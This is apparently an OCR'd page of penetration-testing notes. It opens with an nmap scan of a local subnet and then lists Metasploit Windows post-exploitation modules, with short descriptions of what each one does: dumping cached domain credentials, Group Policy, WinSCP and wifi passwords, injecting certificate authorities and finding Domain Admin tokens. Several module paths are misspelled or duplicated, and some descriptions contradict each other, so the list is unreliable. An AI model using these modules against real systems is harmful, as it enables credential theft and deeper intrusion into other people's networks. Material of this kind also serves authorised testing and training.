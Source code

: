 ```nmap -sS -O -p1-65535 --script banner 192.168.1.1/24```

Scan without pinging boxes

```post/windows/gather/cachedump ```

Dump domain creds

```post/window/gather/checkvm ```

Check if host is a vm

```post/window/gather/credentials/gpp ```

Pulls passwords out from group policy

```post/window/gather/tortoisesvn ```

Windows admins use for svn

```post/window/gather/winscp ```

Secure copy protocol this pulls out passwords

```post/window/gather/dnscache_dump ```

See what sites users have visited

```post/window/gather/enum_applications ```

Finds applications installed on computer

```post/window/gather/enum_chrome ```

Enumerates Chrome Browser

```/enum_ie/enum_firefox ```

Enumerates Firefox Browser

```post/window/gather/enum_termserv ```

Dumps MRU and connection data for RDP sessions

```post/window/gather/enum_anattend ```

check the file system for a copy of unattend.xml and dump password

```post/window/gather/inject_ca ```

Injects cert auth into the box

```post/window/gather/inject_ca ```

Deletes cert auth to remove restrictions
```post/window/gather/wlan/wlan_profile ```

Dumps wifi password in clear text for win7 and above

```post/windows/gather/enum_tokens ```

This module will identify systems that have a Domain Admin (delegation) token on them

A portion of the above list is from the Metasploit Minute Video [here](https://hak5.org/episodes/windows-post-modules-metasploit-minute)

## Capture
```